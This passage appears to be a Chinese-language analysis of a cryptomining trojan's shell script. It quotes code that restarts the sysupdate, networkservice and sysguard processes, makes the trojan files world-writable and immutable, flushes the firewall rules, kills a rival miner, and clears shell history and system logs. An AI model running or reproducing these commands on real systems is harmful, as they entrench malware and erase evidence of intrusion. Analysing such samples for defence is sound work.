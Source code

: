 ```
                sleep 5s
                ./sysguard &
            else
                echo "tmps runing....."
        fi
```

查看sysupdate、networkservice、sysguard进程，若不在运行则启动程序



```
    chmod 777 /tmp/sysupdate
    chattr +i /tmp/sysupdate
	chmod 777 /tmp/networkservice
	chattr +i /tmp/networkservice
	chmod 777 /tmp/sysguard
	chattr +i /tmp/sysguard
    chmod 777 /tmp/update.sh
    chattr +i /tmp/update.sh
    chmod 777 /tmp/config.json
    chattr +i /tmp/config.json
        
fi
```

将木马程序加锁并赋予权限，防止被删除



```
iptables -F
iptables -X
iptables -A OUTPUT -p tcp --dport 3333 -j DROP
iptables -A OUTPUT -p tcp --dport 5555 -j DROP
iptables -A OUTPUT -p tcp --dport 7777 -j DROP
iptables -A OUTPUT -p tcp --dport 9999 -j DROP
iptables -I INPUT -s 43.245.222.57 -j DROP
service iptables reload
```

清空原有防火墙的规则，接着禁止部分端口和43.245.222.57访问



```
ps auxf|grep -v grep|grep "stratum"|awk '{print $2}'|xargs kill -9
history -c
echo > /var/spool/mail/root
echo > /var/log/wtmp
echo > /var/log/secure
echo > /root/.bash_history
```

停止挖矿程序stratum，清空历史命令以及文件